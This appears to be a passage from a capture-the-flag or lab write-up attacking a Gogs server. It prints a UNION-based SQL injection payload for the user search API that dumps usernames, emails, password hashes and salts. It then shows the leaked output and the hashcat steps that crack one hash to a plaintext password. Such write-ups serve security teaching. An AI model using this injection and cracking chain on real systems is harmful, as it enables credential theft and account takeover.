 ```sql
/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-
```
It worked as intended.
```json
❯ cat exfil.txt| jq -r .body | jq .
{
  "data": [
    {
      "username": "susanne",
      "avatar": "//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"
    },
    {
      "username": "susanne:admin@gogs.local:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37:sO3XIbeW14",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```

## Crack the Hash

After some investigation we can see that gogs hashes passwords using "*PBKDF2-HMAC-SHA256*". According to hashcat example hashes the format should be:
```text
sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```
our data is in hex so we need to transform it into base64 and we also need to know how many rounds are used so we do what every professional should do ... ask chatGPT nicely ... and we get the answer "*10 000 rounds*"

Now we transform our hash to base64 and crack it
```bash
# Hash
❯ echo "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37" | xxd -r -p | base64 -w0
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
# Salt
❯ echo -n "sO3XIbeW14" | base64
c08zWEliZVcxNA==
# Hashcat formatted
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
We can successfully crack it.
```bash
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15
```

## User Susanne
